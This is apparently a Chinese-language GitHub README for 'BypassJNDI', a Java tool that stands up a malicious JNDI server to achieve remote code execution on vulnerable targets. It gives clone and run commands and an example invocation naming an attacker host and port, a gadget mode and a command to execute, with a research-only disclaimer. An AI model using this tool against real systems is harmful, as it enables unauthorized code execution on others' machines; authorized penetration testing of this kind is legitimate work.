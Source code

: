 # BypassJNDI

### 注意事项

```
1. 使用过程中的 bug 和优化建议欢迎提 issue
2. 配置好 java 环境变量, jdk8+
3. 程序仅作为安全研究和授权测试使用, 开发人员对因误用和滥用该程序造成的一切损害概不负责
```

### 下载安装

```bash
git clone --depth=1 --branch=master https://www.github.com/coolboy0816/BypassJNDI.git
cd BypassJNDI/
java -jar BypassJNDI.jar
```

### 使用效果

![image](https://user-images.githubusercontent.com/30894096/163807285-fe9d467d-78df-4f0e-a5b4-e3015de30d24.png)

### 使用方法

#### 0x00: 指定vps url和开放端口，建议云上主机开启全部端口
#### 0x01: 指定对应model，根据需求选择
#### 0x02: 指定对应目标系统
#### 0x03: 指定对应执行命令（URLClassloader RCE模式下输入vps与classpath）


### 使用截图

```bash
java -jar BypassJndi.jar 192.168.0.58 1099 elProcessor windows whoami
```
![image](https://user-images.githubusercontent.com/30894096/163810335-e0e9f6f5-15f7-4a13-9b64-0e3fd222033d.png)


